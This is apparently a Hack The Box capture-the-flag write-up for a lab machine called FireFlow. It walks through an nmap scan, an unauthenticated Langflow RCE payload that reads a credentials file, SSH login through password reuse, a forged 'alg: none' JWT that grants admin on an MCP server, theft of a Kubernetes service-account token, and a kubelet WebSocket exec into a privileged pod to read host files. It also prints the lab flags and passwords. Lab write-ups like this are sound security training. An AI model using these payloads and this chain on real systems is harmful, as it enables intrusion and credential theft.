


# Hack The Box — FireFlow

- **Target:** 10.129.244.214 (`fireflow.htb`)
- **OS:** Linux
- **Difficulty:** Medium
- **Date:** 2026-07-05
- **Result:** Owned (Kubelet WebSocket exec through privileged node-exporter)

| Flag | Value |
|------|-------|
| user.txt | `03fefa09a3a9602eb37b015b43107f58` |
| root.txt | `a39fe631072379a440c5afbdc586865a` |

---

## Key facts (quick reference)

| # | Fact | Value |
|---|------|-------|
| 1 | How many TCP ports are open? | **2** (22, 443) |
| 2 | Web application on 443 | Langflow **1.8.2** (flow.fireflow.htb) |
| 3 | Virtual host | `fireflow.htb` |
| 4 | Foothold vulnerability | CVE-2026-33017 (Langflow Unauth RCE) |
| 5 | Foothold user | `www-data` |
| 6 | User pivot | SSH password reuse (`nightfall`) |
| 7 | Privesc vector | MCP Tool Registry JWT bypass, mcp-sa token, kubelet WebSocket exec |

---

## 1. Enumeration

### Port scan

```bash
nmap -p22,443 -sCV 10.129.244.214
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.2p1 (protocol 2.0)
443/tcp open  ssl/http nginx (proxies flow.fireflow.htb)
```

---

## 2. Foothold — CVE-2026-33017 (Langflow Unauth RCE)

Langflow 1.8.2 was running on the subdomain `flow.fireflow.htb`. The application was vulnerable to unauthenticated Remote Code Execution in the `/api/v1/build_public_tmp/{flow_id}/flow` endpoint.

By fetching the flow structure and injecting a malicious Component subclass into the `TextOperations` node, we achieved arbitrary Python command execution:

```python
import subprocess
from lfx.custom import Component
from lfx.io import MessageTextInput, Output
from lfx.schema.message import Message

class TextOperations(Component):
    def get_message(self) -> Message:
        proc = subprocess.Popen("cat /etc/langflow/.env", shell=True, stdout=subprocess.PIPE)
        out, _ = proc.communicate()
        return Message(text=out.decode("utf-8"))
```

This RCE payload ran as `www-data` and allowed us to read the environment variables.



---

## 3. User Privilege Escalation

Reading `/etc/langflow/.env` using the RCE foothold yielded:
```bash
LANGFLOW_SUPERUSER_PASSWORD=n1ghtm4r3_b4_n1ghtf4ll
```

Due to password reuse, these credentials successfully authenticated the SSH user `nightfall`:
```bash
sshpass -p 'n1ghtm4r3_b4_n1ghtf4ll' ssh nightfall@10.129.244.214
cat /home/nightfall/user.txt
# User Flag Captured: 03fefa09a3a9602eb37b015b43107f58
```

---

## 4. Lateral Movement & MCP JWT Bypass

Auditing `nightfall`'s home directory revealed MCP configurations in `/home/nightfall/.mcp/config.json`:
- **Server:** `http://10.129.244.214:30080` (K3s NodePort mapped to the MCP server pod)
- **User:** `langflow-bot`
- **Password:** `Langfl0w@mcp2026!`

The MCP server implemented token authentication but was vulnerable to a signature bypass via `alg: none`. The ordinary login token for `langflow-bot` was `role=user`; forging the same subject with `role=admin` allowed tool registration:

```json
// Header
{"alg": "none", "typ": "JWT"}

// Payload
{"sub": "langflow-bot", "role": "admin"}
```

Custom MCP tools execute submitted Python at top level. Registering a small tool inside the MCP pod let us read the mounted service account token:

```bash
POST /api/v1/tools
{"name":"pod_context","code":"print(open('/var/run/secrets/kubernetes.io/serviceaccount/token').read())"}
```



The token belonged to `system:serviceaccount:default:mcp-sa`. It could not list nodes directly, but it could read through `nodes/proxy`, and from inside the MCP pod direct kubelet on `10.129.244.214:10250` was reachable.

---

## 5. Root — Kubelet WebSocket Exec

Querying kubelet `/pods` showed a privileged monitoring pod:

```text
POD monitoring prometheus-prometheus-node-exporter-nmntq
  container: node-exporter
  hostNetwork: true
  hostPID: true
  privileged: true
  runAsUser: 0
  hostPath / -> /host/root (readOnly)
```

Using the `mcp-sa` token against kubelet `/exec` with WebSocket subprotocol `v4.channel.k8s.io` allowed command execution inside `node-exporter`:

```text
wss://10.129.244.214:10250/exec/monitoring/prometheus-prometheus-node-exporter-nmntq/node-exporter
  ?output=1&error=1&tty=0
  &command=/bin/sh&command=-c
  &command=id; ls -l /host/root/root/root.txt; cat /host/root/root/root.txt
```

The host root filesystem was mounted at `/host/root`, so host `/root/root.txt` mapped to `/host/root/root/root.txt`:

```text
uid=0(root) gid=65534(nobody) groups=10(wheel),65534(nobody)
-rw-r-----    1 root     root            33 Jul 23 16:04 /host/root/root/root.txt
a39fe631072379a440c5afbdc586865a
{"status":"Success"}
```
